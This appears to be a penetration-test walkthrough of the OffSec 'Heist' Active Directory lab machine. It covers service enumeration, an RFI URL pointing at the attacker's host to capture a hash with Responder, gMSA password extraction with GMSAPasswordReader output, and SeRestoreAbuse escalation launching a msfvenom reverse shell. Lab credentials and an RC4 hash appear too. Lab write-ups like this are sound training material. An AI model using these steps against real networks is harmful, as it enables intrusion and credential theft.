 ### ++ Approach 192.168.180.165 ++
#### Credentials
	* enox:california (heist.offsec)

#### Services
	##### 53 DNS
		DC: DC01.heist.offsec
        Domain: heist.offsec

	##### 389,3268 Ldap
		-

	##### 139,445 SMB
		No null session

	##### 135 RPC
		No null session

	##### 3389 RDP
		-

	##### 5985 WinRM
		We can login with enox user

	##### 8080 Http
		Here we found RFI: http://heist.offsec:8080/?url=http://192.168.45.187/share/test
        We can steal user hash with responder and get creds enox:california
        Get bloodhound data: 
            bloodhound-python -u enox -p california -ns 192.168.180.165 -d heist.offsec -c All

### ++ Vulnerabilities ++

#### Vuln 1: RFI in 8080 app ++
	* There is a RFI vulnerability which can give us the user enox hash using responder, and crack the password con hashcat to get a foothold

### ++ System Interaction ++
#### Foothold  
	* Abuse vuln 1 and get a shell as enox

#### Lateral Movement
	* With Bloodhound we found that svc_apache$ has ReadGMSAPassword inherited by Web Admins group. Our user enox is in this group too.
    * With **[this post](https://www.thehacker.recipes/a-d/movement/dacl/readgmsapassword)** we found that we can extract svc_apache$ hash with our user enox and move laterally by using the binary GMSAPasswordReader.exe
        - Command: .\GMSAPasswordReader.exe --AccountName 'svc_apache'
        - Output: 
            Calculating hashes for Current Value
            [*] Input username             : svc_apache$
            [*] Input domain               : HEIST.OFFSEC
            [*] Salt                       : HEIST.OFFSECsvc_apache$
            [*]       rc4_hmac             : 4B3F0BF258E6C099A7B800EC37B2D456
            [...SNIP...]

#### Privilege Escalation 
	* With SharpUp.exe we found that we can abuse SeRestoreAbuse
    * After some searching we found **[this](https://github.com/xct/SeRestoreAbuse)** to abuse this privilege
    * With msfvenom we create a malicious binary and executed it with SeRestoreAbuse.exe:
        .\SeRestoreAbuse.exe "cmd /c revshell.exe"

#### Attack chain
	* With RFI and responder we get enox hash and after crack it we get a foothold
    * Web Admins group (enox and svc_apache are both members) has ReadGMSAPassword privilege, so we can read svc_apache hash with enox using readgmsapassword binary and move laterally
    * With svc_apache we can abuse SeRestoreAbuse and become nt authority\system
	
#### Post-exploitation 
	* -


- Setup Flask Application for Secure Browser [DONE]
- Use group managed service account for apache [DONE]
- Migrate to apache
- Debug Flask Application [DONE]
- Remove Flask Application
- Submit IT Expenses file to admin. [DONE]

SharpUp - Service 'FlaskService' (StartMode: Automatic) has executable 'C:\Program Files\nssm-2.24\win64\nssm.exe', but 'C:\Program' is modifable.

WinPeas - FlaskService(FlaskService)[C:\Program Files\nssm-2.24\win64\nssm.exe] - Autoload - No quotes and Space detected